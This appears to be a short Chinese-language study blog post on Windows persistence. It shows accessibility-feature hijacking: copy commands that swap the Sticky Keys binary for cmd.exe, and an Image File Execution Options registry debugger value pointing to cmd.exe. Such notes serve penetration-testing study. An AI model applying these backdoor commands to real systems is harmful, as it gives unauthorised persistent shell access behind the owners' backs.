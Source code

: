 ```yaml
---
title: Windows权限维持学习
date: 2022-03-08
tags: 渗透
categories: Technology
---
```


[toc]

简单记录下Windows权限维持的内容。

# 0x1 辅助功能镜像劫持

先前的版本可以直接更换：

```
屏幕键盘： C:\Windows\System32\osk.exe
放大镜： C:\Windows\System32\Magnify.exe
旁白： C:\Windows\System32\Narrator.exe
显示切换器 C:\Windows\System32\DisplaySwitch.exe
应用切换器： C:\Windows\System32\AtBroker.exe
```

直接命令行：

```sh
copy c:\windows\system32\sethc.ex c:\windows\system32\sethc1.exe
copy c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
```

高版本需要IFEO。所谓的IFEO就是Image File Execution Options，直译过来就是映像劫持。它又被称为“重定向劫持”（Redirection Hijack），它和“映像劫持”（Image Hijack，或IFEO Hijack）只是称呼不同，实际上都是一样的技术手段。白话来讲就是做某个操作的时候被拦截下来，干了别的事。

在iexplorer.exe中加键值对：debugger  c:\windows\system32\cmd.exe

![image-20220308172433830](Windows权限维持学习/image-20220308172433830.png)
